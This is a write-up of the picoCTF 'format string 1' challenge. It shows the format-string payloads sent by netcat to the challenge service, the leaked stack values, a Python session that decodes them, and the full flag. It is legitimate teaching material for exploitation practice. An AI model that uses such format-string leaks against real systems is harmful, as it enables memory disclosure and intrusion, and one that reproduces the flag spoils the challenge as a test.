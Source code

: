 # format string 1:Binary Exploitation:100pts
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!  
Download the binary [here](format-string-1).  
Download the source [here](format-string-1.c).  
Connect with the challenge instance here:  
`nc mimas.picoctf.net 59379`  

Hints  
1  
https://lettieri.iet.unipi.it/hacking/format-strings.pdf  
2  
Is this a 32-bit or 64-bit binary?  

# Solution
The binary, source and destination are passed. If you try to connect it, there is an FSB in the program that echoes back.  
```bash
$ nc mimas.picoctf.net 59379
Give me your order and I'll read it back to you:
satoki
Here's your order: satoki
Bye!

$ nc mimas.picoctf.net 59379
Give me your order and I'll read it back to you:
%s%s%s%s%s
Here's your order: Here's your order: (null)(null)%s%s%s%s%s

Bye!
```
'%X$s' gives you access to the Xth string of the stack, but you can't find the flag when you look nearby. Probably not a pointer to a string, but rather a '%p' assuming that the string is on the stack as it is.
```bash
$ nc mimas.picoctf.net 59379
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7faae7e20a00,(nil),0x17a4880,0xa347834,0x7fff13577fc0,0x7faae7c11e60,0x7faae7e364d0,0x1,0x7fff13578090,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531,0x7,0x7faae7e388d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x7faae7e49de9,0x7faae7c1a098,0x7faae7e364d0,(nil),0x7fff135780a0,0x70252c70252c7025
Bye!
```
When hex was set to ASCII, the flag was included as follows.  
```bash
$ python
~~~
>>> from ptrlib import *
>>> p64(0x7b4654436f636970)
b'picoCTF{'
>>> p64(0x355f31346d316e34)
b'4n1m41_5'
>>> p64(0x3478345f33317937)
b'7y13_4x4'
>>> p64(0x31655f673431665f)
b'_f14g_e1'
>>> p64(0x7d383130386531)
b'1e8018}\x00'
>>> p64(0x7b4654436f636970) + p64(0x355f31346d316e34) + p64(0x3478345f33317937) + p64(0x31655f673431665f) + p64(0x7d383130386531)
b'picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}\x00'
```

## picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}